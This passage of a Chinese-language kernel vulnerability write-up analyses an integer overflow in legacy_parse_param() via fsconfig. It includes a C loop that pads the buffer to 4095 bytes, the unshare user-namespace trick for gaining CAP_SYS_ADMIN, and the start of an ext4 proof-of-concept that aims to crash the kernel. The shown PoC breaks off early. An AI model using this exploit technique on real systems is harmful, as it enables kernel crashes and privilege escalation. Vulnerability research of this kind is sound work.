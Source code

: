 这里需要注意的是，由于 fsconfig 的限制，我们单次写入的最大长度为 256 字节，因此我们需要多次调用 fsconfig 以让其逐渐逼近 `PAGE_SIZE`，而 `len > PAGE_SIZE - 2 - size` 的检查**并非完全无效**，由于 size 为已拷贝数据长度而 len 为待拷贝数据长度，因此**只有当 size 累加到 4095 时才会发生整型溢出**，这里我们在进行溢出前需要卡好已拷贝数据长度**刚好为 `4095`**

由于 `legacy_parse_param()` 中拷贝的结果形式为 `",key=val"`，故我们有如下计算公式：

*   `单次拷贝数据长度 = len(key) + len(val) + 2`

下面笔者给出一个笔者自己计算的 4095：

```
    /**
     * fulfill the ctx->legacy_data to 4095 bytes, 
     * so that the (PAGE_SIZE - 2 - size) overflow
     */
    for (int i = 0; i < 255; i++) {
        fsconfig(fs_fd, FSCONFIG_SET_STRING, "arttnba", "arttnba", 0);
    }
    fsconfig(fs_fd, FSCONFIG_SET_STRING, "arttnba3", "pwnnn", 0);

```

Proof of Concept
----------------

由于大部分的文件系统类型都未设置 `init_fs_context`，因此最后都可以走到 `legacy_parse_param()` 的流程当中，例如 `ext4` 文件系统的 `file_system_type` 定义如下：

```
static struct file_system_type ext4_fs_type = {
    .owner      = THIS_MODULE,
    .name       = "ext4",
    .mount      = ext4_mount,
    .kill_sb    = kill_block_super,
    .fs_flags   = FS_REQUIRES_DEV,
};

```

这里我们将通过 ext4 文件系统进行漏洞复现，我们只需要越界写足够长的一块内存，通常都能写到一些内核结构体从而导致 kernel panic

需要注意的是 filesystem mount API 需要命名空间具有  `CAP_SYS_ADMIN` 权限，但由于其**仅检查命名空间权限**，故对于没有该权限的用户则可以通过 `unshare(CLONE_NEWNS|CLONE_NEWUSER)` 创建新的命名空间，以在新的命名空间内获取对应权限

```
#define _GNU_SOURCE 
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <linux/mount.h>
#include <unistd.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/syscall.h>
#include <sys/mman.h>

#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif

#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif

int fsopen(const char *fs_name, unsigned int flags)
{
    return syscall(__NR_fsopen, fs_name, flags);
}
```